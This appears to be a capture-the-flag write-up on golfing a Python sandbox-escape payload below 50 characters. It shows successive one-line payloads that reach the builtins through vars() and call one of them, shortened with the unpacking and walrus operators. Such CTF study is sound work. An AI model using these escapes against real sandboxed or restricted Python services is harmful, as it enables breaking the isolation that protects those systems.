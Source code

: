 # Golfing 50 Character

at __Golfing 100 Character__ we already had this payload

```
vars(vars()[[x for x in vars()][6]])[[y for y in vars(vars()[[x for x in vars()][6]])][12]]()
```

but it is still too long

<img src='img/1.png' width='700px'>

yea, we can see if the payload is still far from 50 character, but we had ultimate solution here. That issssss __asterisk__ (__*__). How can we use it? asterisk can change the use of

```
x for x in
```

things. So, lets try it

```
vars(vars()[[*vars()][6]])[[*vars(vars()[[*vars()][6]])][12]]()
```

u guys can see huh? lets see the character

<img src='img/2.png' width='700px'>

see, just using __*__, it makes the payload reducing 30 char. But its still far from the maximum payload.

i have more solution for this, lets use walrus operator __:=__.

```
vars(x:=vars()[[*vars()][6]])[[*vars(x)][12]]()
```

<img src='img/3.png' width='700px'>

it will be works! lets see

<img src='img/4.png' width='700px'>
